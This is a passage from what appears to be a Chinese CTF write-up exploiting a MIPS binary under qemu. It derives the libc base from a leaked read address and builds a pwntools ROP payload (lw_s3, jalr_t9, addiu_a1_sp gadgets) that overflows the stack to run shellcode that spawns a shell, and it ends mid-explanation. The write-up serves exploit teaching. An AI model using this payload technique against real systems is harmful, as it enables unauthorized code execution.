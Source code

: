现在我们知道了两个地址：

+ 程序运行时read函数的真实地址的后3字节：0x6FBEA4。
+ read函数在文件中的偏移为0xDDEA4

但是根据这些我们仍然无法完全得知libc代码段的基地址，只能得到后三位为`0x6FBEA4 - 0xDDEA4 == 0x61e000`。**<font style="color:#E8323C;">正好，使用</font>**`**<font style="color:#E8323C;">qemu-user</font>**`**<font style="color:#E8323C;">模拟的程序其动态链接库都会加载到</font>**`**<font style="color:#E8323C;">0x7f000000</font>**`**<font style="color:#E8323C;">到</font>**`**<font style="color:#E8323C;">0x80000000</font>**`**<font style="color:#E8323C;">范围之内，那这不就简单了，read函数的完整地址应为</font>**`**<font style="color:#E8323C;">0x7f000000 + 0x61e000 == 0x7f61e000</font>**`**<font style="color:#E8323C;">。</font>**

下面开始利用，程序没有开启`NX保护`，我们还是可以`ret2shellcode`；但是我们无法像之前得知栈地址，因此需要走一些弯路找gadgets。这里就使用IDA的`mipsrop`插件好了

> + `mipsrop`插件：[https://github.com/devttys0/ida/blob/master/plugins/mipsrop/mipsrop.py](https://github.com/devttys0/ida/blob/master/plugins/mipsrop/mipsrop.py)
>

下载完成之后放到`IDA`的plugins目录，用IDA打开题目自带的`libc.so.6`，点击`search`->`mips rop gadgets`，然后在最下面的python代码框中键入`mipsrop.find(<要寻找的gadget>)`以寻找相应的gadgets。我们直接来看看exp是怎么写的，首先计算出libc代码段的基地址以及其他所需gadgets的真实地址：

```python
print(hex(readOffset_True))
readOffset_Libc = libc.symbols['read']
libcCodeBase = readOffset_True - readOffset_Libc 
FullLibcCodeBase = 0x7f000000 + libcCodeBase
log.success(hex(FullLibcCodeBase))

# 所有的地址都不会变化
p = process(["qemu-mipsel-static", "-L", "./", "./eserver"])

lw_s3_gadget = 0x0A0C7C + FullLibcCodeBase
jalr_t9_gadget = 0x11C68C + FullLibcCodeBase
addiu_a1_sp_24_gadget = 0xF60D4 + FullLibcCodeBase
```

我们跟着gadgets了解下getshell的流程，溢出后栈布局为：

```python
shellcode = asm(shellcraft.sh())
padding = b"TruE"

payload = b'a'*504							# overflow
payload += b'b'*4							# $fp								 
payload += p32(lw_s3_gadget) 				# $ra  
payload += b'c'*44
payload += padding                        	# s0
payload += padding                        	# s1
payload += padding                        	# s2
payload += p32(jalr_t9_gadget)            	# s3
payload += p32(addiu_a1_sp_24_gadget)     	# ra  
payload += b'd'*24
payload += shellcode
```

首先执行`lw_s3_gadget`，根据栈与gadget，有：
